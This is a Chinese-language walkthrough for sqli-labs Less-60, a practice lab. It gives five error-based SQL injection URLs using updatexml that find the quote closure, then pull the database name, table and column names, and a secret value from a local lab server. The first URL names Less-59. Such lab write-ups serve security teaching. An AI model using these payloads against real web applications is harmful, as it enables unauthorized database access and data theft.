

# Less - 60

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1"
```

​​​​

根据错误信息判断闭合方式为")–+，并且为字符型注入。因为有完整错误信息，所以这里我们使用报错注入攻击。

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

​​​​

---

## 4、查看tdi4tfrpjh表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='tdi4tfrpjh'),0x7e),1)--+
```

​​​​

---

## 5、查看secret_3F2R字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-60/?id=1") and updatexml(1,concat(0x7e,(select group_concat(secret_3F2R) from challenges.tdi4tfrpjh),0x7e),1)--+
```

​​

​​
